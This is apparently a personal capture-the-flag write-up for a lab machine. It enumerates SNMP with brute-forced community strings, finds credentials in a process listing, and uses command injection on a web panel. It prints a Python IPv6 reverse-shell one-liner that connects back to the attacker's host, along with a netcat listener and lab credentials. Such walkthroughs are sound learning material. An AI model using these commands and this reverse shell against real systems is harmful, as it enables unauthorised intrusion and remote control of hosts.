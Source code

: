 with a conventional scan with [[nmap]] with [[Transmission Control Protocol (TCP)]] we just find open [[port 22]], and [[port 3366]] that's a Web but need credentials so there is little we can do. 
but, with [[whatweb]] we can find this
![[Pasted image 20250417064120.png]]
the service are running with python, by the way.
with [[User Datagram Protocol (UDP)]] we found [[port 161]] open, default service here is [[Simple Network Management Protocol (snmp)]]. 

then to enumerate **snmp** we must to know a *community string*. so we going to use [[Brute force]] to get that.
A tool [[onesixtyone]] allows you execute a brute force attack for get a community string using a dictionary.

```bash
onesixtyone 10.10.10.92 -c /usr/share/Discovery/DNMP/common-snmp-community-strings-onesixtyone.txtjj
```

![[Pasted image 20250417051842.png]]
we found the community string is *public*.
and now we can use [[snmpwalk]] to get some information like [[IPv6]] address
```bash
snmpwalk -v2c -c public 10.10.10.92 ipAddressType
```
![[Pasted image 20250417063253.png]]
we get that data. Correctly formatted `dead:beef:0000:0000:0250:56ff:fe94:35c3` is the [[IPv6]] of the machine so adding the parameter `-6` to nmap we can do a normal scan with ipv6 addresses and got the [[port 80]] open.
if in our browser write this
![[Pasted image 20250417063557.png]]
we can see the page running on port 80.

so, [[Simple Network Management Protocol (snmp)]] is exposed, we have a possibility of enumerate processes with snmp with `hrSWRunName` and filter by [[Python]]

```bash
snmpwalk -v2c -c public 10.10.10.92 hrSWRunName | grep python
```
![[Pasted image 20250417064632.png]]
and then filter by tables with that identifier
![[Pasted image 20250417065200.png]]
we have the one liner that execute the web page on port 3366.

```bash
python -m SimpleHTTPAuthServer 3366 loki:godofmischiefisloki ...
```
then if we try that user and password in `10.10.10.92:3366`:
![[Pasted image 20250417170127.png]]

| Username | Password            |
| -------- | ------------------- |
| loki     | godofmischiefisloki |
| loki     | trickeryanddeceit   |
Trying that with this credentials with commons usernames on web on port 80 via IPv6 we were able to enter with `administrator:trickeryanddeceit`
![[Pasted image 20250417171140.png]]
by default at press execute the command is successful executed but not display the output, if we concatenate `;` now display the output.
![[Pasted image 20250417171414.png]]
we have problems trying establish a reverse shell via IPv4 so with python can use IPv6
```python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET6,socket.SOCK_STREAM);s.connect(("dead:beef:4::1002",9001));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

and listen with [[netcat (nc)]]
```bash
nc -nv -l dead:beef:4::1002 9001
```
the execution code panel says in home directory we going to get a `credentials` file and indeed.
![[Pasted image 20250417173805.png]]
with this credentials we can connect as `loki` via [[ssh]]
![[Pasted image 20250417174027.png]]

Read the `.bash_history`
![[Pasted image 20250417174209.png]]
that pass maybe could be of root user but at try use `su` to change the user u can't.
![[Pasted image 20250417174323.png]]
using [[getfacl]] to display privileges user `loki` has a restriction

then we can change of user to root with `www-data`.
![[Pasted image 20250417174457.png]]
